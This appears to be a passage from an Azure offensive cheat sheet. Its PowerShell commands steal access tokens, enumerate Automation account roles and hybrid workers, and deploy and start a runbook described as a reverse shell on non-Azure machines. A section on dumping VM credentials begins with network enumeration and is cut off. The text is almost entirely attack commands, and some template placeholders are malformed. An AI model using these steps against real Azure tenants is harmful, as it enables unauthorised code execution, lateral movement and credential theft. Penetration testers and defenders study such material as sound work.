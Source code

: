 Let's switch to Az powershell module 

```powershell
# Get token for ARM
az account get-access-token
$AccessToken = 'eyJ0...'
az account get-access-token --resource-type ms-graph
$AADToken = 'eyJ0...'


Connect-AzAccount -AccessToken $AccessToken -GraphAccessToken $AADToken -AccountId f66e133c-bd01-4b0b-b3b7-7cd949fd45f3
```

Enumerate the automations

```powershell
# Get role for the user in the automation
Get-AzRoleAssignment -Scope {{ AutomationId /subscriptions/{subs}/resourceGroups/{rg}/providers/Microsoft.Automation/automationAccounts/{name} }}
# Best output:
# RoleDefinitionName : Contributor

# Check if automation has any HybridWorker
Get-AzAutomationHybridWorkerGroup -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }}
```

An hybrid worker is when a Runbook is to be run on a non-azure machine.

With contributor access in the automation it is possible to execute commands in the infrastructure

```powershell
# Create runbook with a custom powershell that is a reverse shell
Import-AzAutomationRunbook -Name {{ AutoName autoname }} -Path {{ Path_script path }} -AutomationAccountName {{ AutomationAccountName automationaccountname }} - ResourceGroupName {{ ResourceGroupName resourcegroupname }} -Type PowerShell -Force -Verbose
# Publish
Publish-AzAutomationRunbook -RunbookName {{ AutoName autoname }} -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }} - Verbose
# Start 
Start-AzAutomationRunbook -RunbookName {{ AutoName autoname }} -RunOn Workergroup1 -AutomationAccountName {{ AutomationAccountName automationaccountname }} -ResourceGroupName {{ ResourceGroupName resourcegroupname }} -Verbose
```

## Compromise Azure VM to dump credentials

In this scenario we have access to an Azure VM and we want to dump the credentials for the machine

```powershell
# Get NetworkProfile of the machine
Get-AzVM -Name {{ MachineName machinename }} -ResourceGroupName {{ ResourceGroup resourcegroup }} | select -ExpandProperty NetworkProfile | fl

# Get information about the network interface
Get-AzNetworkInterface -Name {{ InterfaceName interfacename}

# Get public IP
Get-AzPublicIpAddress -Name {{ InterfaceName interfacename}}
```
